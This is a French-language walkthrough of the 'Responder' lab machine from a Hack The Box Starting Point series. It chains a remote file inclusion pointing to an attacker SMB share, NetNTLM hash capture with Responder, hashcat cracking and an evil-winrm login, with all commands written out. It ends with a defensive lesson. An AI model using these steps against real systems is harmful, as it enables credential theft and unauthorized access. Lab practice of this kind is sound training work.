

[⬅ Retour à Starting Point](../README.md) · [🏠 Accueil du repo](../../../README.md)

# Machine 8 — Responder

**RFI → capture NTLM → WinRM — Ports 80, 5985**

| | |
|---|---|
| **Tier** | 2 |
| **OS** | Windows |
| **Services** | HTTP/IIS (80) · WinRM (5985) |

## Concept

Chaîner une inclusion de fichier distant (RFI) avec la capture de hashs d'authentification NTLM pour obtenir un accès Windows via WinRM.



## Méthodologie

### Scan de ports

```bash
nmap -sV -sC 10.129.x.x
```

```
80/tcp   open  http    IIS
5985/tcp open  winrm
```

### Remote File Inclusion (RFI)

Un paramètre du site web pointe vers une ressource UNC contrôlée par l'attaquant (ex : `\\<ton_IP>\share`).

### Capture du hash NetNTLM

```bash
responder -I tun0
```

La cible tente de s'authentifier auprès du partage SMB contrôlé — Responder capture le hash NetNTLM de l'utilisateur `mike`.

### Craquage du hash

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### Accès WinRM

```bash
evil-winrm -i 10.129.x.x -u mike -p '<mot_de_passe_trouve>'
```

```powershell
type C:\Users\mike\Desktop\flag.txt
```

## Points clés

- Une RFI force la cible à contacter une ressource distante contrôlée par l'attaquant.
- Responder capture les hashs NetNTLM envoyés lors de cette tentative d'authentification automatique.
- `evil-winrm` fournit un shell interactif sur Windows via le protocole WinRM.

## Leçon retenue

*Restreindre strictement l'inclusion de fichiers distants côté applicatif, et désactiver l'authentification NTLM sortante non nécessaire.*

---

[⬅ Précédent : Oasis](07-oasis.md) · [⬆ Index Starting Point](../README.md) · [Suivant : Three ➡](09-three.md)
